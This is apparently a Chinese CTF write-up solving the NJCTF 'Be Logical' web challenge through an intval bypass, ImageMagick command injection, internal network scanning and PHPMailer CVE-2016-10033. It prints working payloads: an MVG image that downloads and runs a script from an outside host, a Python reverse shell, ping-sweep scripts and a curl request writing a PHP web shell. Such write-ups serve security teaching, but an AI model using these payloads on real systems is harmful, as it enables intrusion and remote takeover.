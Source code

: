 ```yaml
---
title: Be Logical-逻辑漏洞->ImageMagick->PHPMailer
date: 2017-03-28 00:00:00
categories:
- CTF/Web
tags: NJCTF 内网扫描 ImageMagick PHPMailer php黑魔法 intval
---
```


## 解题步骤

### 逻辑漏洞

- 是后台在refund的操作中，用了intval函数，比较point与mony是否相等，来确认数据没有被篡改。但是，我们可以通过科学计数法绕过。intval(1e3)=intval(1)。这样就能购买服务了。

### ImageMagick

> 这里有 convert 图片的功能，猜测是ImageMagick命令执行漏洞

- 命令执行漏洞是出在ImageMagick对https形式的文件处理的过程中

> 上传1.png

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|wget http://bendawang.site:8000/a.py -O /tmp/bendawang.py && python /tmp/bendawang.py 103.228.131.75 12310")'
pop graphic-context
```

---

> python 反弹shell

```python
import socket,subprocess,os,sys;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((sys.argv[1],int(sys.argv[2])));

# 重定向标准输入，标准输出，标准错误到socket连接中
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);

# 子进程打开一个shell
p=subprocess.call(["/bin/sh","-i"]);
```
---
> nc开启监听

```bash
$ nc -l 12310
```

- 并没有在本机发现flag

### 内网扫描

> 快速探测内网

```bash
$ arp -nv

```

---

> python 扫描脚本

```python
#-*- coding: utf-8 -*-  
#author: orangleliu  date: 2014-11-12  
#python2.7.x  ip_scaner.py  
  
''''' 
不同平台，实现对所在内网端的ip扫描 
 
有时候需要知道所在局域网的有效ip，但是又不想找特定的工具来扫描。 
使用方法 python ip_scaner.py 192.168.1.1  
(会扫描192.168.1.1-255的ip) 
'''  
  
import platform  
import sys  
import os  
import time  
import thread  
  
def get_os():  
    ''''' 
    get os 类型 
    '''  
    os = platform.system()  
    if os == "Windows":  
        return "n"  
    else:  
        return "c"  
      
def ping_ip(ip_str):  
    cmd = ["ping", "-{op}".format(op=get_os()),  
           "1", ip_str]  
    output = os.popen(" ".join(cmd)).readlines()  
      
    flag = False  
    for line in list(output):  
        if not line:  
            continue  
        if str(line).upper().find("TTL") >=0:  
            flag = True  
            break  
    if flag:  
        print "ip: %s is ok ***"%ip_str  
  
def find_ip(ip_prefix):  
    ''''' 
    给出当前的127.0.0 ，然后扫描整个段所有地址 
    '''  
    for i in range(1,256):  
        ip = '%s.%s'%(ip_prefix,i)  
        thread.start_new_thread(ping_ip, (ip,))  
        time.sleep(0.3)  
      
if __name__ == "__main__":  
    print "start time %s"%time.ctime()  
    commandargs = sys.argv[1:]  
    args = "".join(commandargs)      
      
    ip_prefix = '.'.join(args.split('.')[:-1])  
    find_ip(ip_prefix)  
    print "end time %s"%time.ctime() 
```

---

> bash扫描脚本

```bash
scan()  {
  #statements
  ping -c 1 $1.$2 > /dev/null && echo "$1.$2 is alive"
}
for  i in `seq 1 254`
do
   scan $1 $i  &
done
```

-  发现存活主机

```bash
Address                  HWtype  HWaddress           Flags Mask            Iface
172.17.42.1              ether   72:1d:76:57:41:32   C                     eth0
172.26.0.20              ether   72:1d:76:57:41:32   C                     eth0
172.17.0.1               ether   02:42:ac:11:00:01   C                     eth0
172.17.0.19              ether   02:42:ac:11:00:13   C                     eth0
Entries: 4  Skipped: 0  Found: 4
```

- curl测试可以看到在172.17.0.19存活一个Mail SYSTEM

### PHPMailer

- 攻击者只需巧妙地构造出一个形如`aaa( -X/home/www/success.php )@qq.com`的恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害，测试如下

```bash
curl http://172.17.0.19 -d "subject=aaaaa&email=aaa( -X /var/www/html/uploads/bendawang.php -OQueueDirectory=/tmp )@qq.com&message=<?php phpinfo();?>&submit=Send email"
```

- 读目录文件得到flag

## 知识小结

- intval()函数逻辑漏洞（题目设定）

- 内网扫描

- ImageMagick 命令执行漏洞
[http://www.tuicool.com/articles/rYvueaN](http://www.tuicool.com/articles/rYvueaN)

- PHPMailer 命令执行漏洞
[https://blog.chaitin.cn/phpmailer-cve-2016-10033/](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)

## CVE漏洞编号

- CVE-2016-3741
- CVE-2016-10033
